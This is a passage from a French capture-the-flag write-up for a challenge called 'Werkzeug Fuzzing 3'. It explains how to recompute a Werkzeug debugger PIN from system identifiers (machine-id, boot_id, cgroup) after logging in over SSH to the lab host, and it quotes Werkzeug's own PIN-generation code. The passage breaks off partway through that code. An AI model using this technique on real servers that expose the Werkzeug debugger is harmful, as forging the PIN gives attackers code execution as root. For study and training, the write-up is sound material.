 # [Web] Werkzeug Fuzzing 3

## Consignes

```
The web application is running as root, prove you can collect enough information on the server to compute the pin code
ssh user@10.22.6.101 -p 17002 (password: user)
http://10.22.6.101:17003

Get root!
```

## Résolution

L'objectif est de recalculer le pin code werkzeug à partir des données obtenues sur la machine en tant qu'utilisateur 
non privilégié. Nous avons l'information qu l'application tourne en tant que l'utilisateur root

```bash
$ ssh user@10.22.6.101 -p 17002
12dc5e96a37f:~$ find /usr/ -name werkzeug
/usr/local/lib/python3.10/site-packages/werkzeug
```

On parse le contenu du code de `/usr/local/lib/python3.10/site-packages/werkzeug/debug/__init__.py` pour ne garder que 
le contenu utile pour calculer le pin code:

```python
import getpass
import hashlib
import json
import os
import pkgutil
import re
import sys
import time
import typing as t
import uuid
from itertools import chain

_machine_id = None

def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
    global _machine_id
    if _machine_id is not None:
        return _machine_id
    def _generate() -> t.Optional[t.Union[str, bytes]]:
        linux = b""
        # machine-id is stable across boots, boot_id is not.
        for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
            try:
                with open(filename, "rb") as f:
                    value = f.readline().strip()
            except OSError:
                continue
            if value:
                linux += value
                break
        try:
            with open("/proc/self/cgroup", "rb") as f:
                linux += f.readline().strip().rpartition(b"/")[2]
        except OSError:
```